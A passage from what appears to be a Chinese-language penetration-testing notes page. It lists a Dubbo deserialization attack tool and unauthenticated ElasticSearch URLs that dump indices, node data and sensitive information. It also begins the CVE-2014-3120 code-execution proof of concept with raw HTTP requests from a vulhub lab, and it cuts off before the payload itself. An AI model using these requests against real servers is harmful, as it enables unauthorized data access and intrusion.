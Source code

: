 **工具**
- [threedr3am/dubbo-exp](https://github.com/threedr3am/dubbo-exp) - Dubbo 反序列化一键快速攻击测试工具，支持 dubbo 协议和 http 协议，支持 hessian 反序列化和 java 原生反序列化。

---

## ElasticSearch

> 官网 : https://www.elastic.co/

ElasticSearch 是一个基于 Lucene 的搜索服务器.它提供了一个分布式多用户能力的全文搜索引擎,基于 RESTful web 接口.Elasticsearch 是用 Java 开发的,并作为 Apache 许可条款下的开放源码发布,是当前流行的企业级搜索引擎.

**未授权访问漏洞**

- `http://<ip>:9200`
- `http://<ip>:9200/_plugin/head/` web管理界面
- `http://<ip>:9200/_cat/indices`
- `http://<ip>:9200/_river/_search` 查看数据库敏感信息
- `http://<ip>:9200/_nodes` 查看节点数据
- `http://<ip>:9200/_cat/indices?v` 查看当前节点的所有 Index
- `http://<ip>:9200/_search?pretty=true` 查询所有的 index, type
- `curl http://<ip>:9200/_nodes` 查看节点数据

**CVE-2014-3120 ElasticSearch 命令执行漏洞**
- 简介

    老版本 ElasticSearch 支持传入动态脚本 (MVEL) 来执行一些复杂的操作,而 MVEL 可执行 Java 代码,而且没有沙盒,所以我们可以直接执行任意代码.

- 影响版本
    - ElasticSearch 1.1.1

- POC | Payload | exp

    来源: [ElasticSearch 命令执行漏洞 (CVE-2014-3120) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/)

    首先,该漏洞需要 es 中至少存在一条数据,所以我们需要先创建一条数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
    "name": "test"
    }
    ```

    然后,执行任意代码:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343
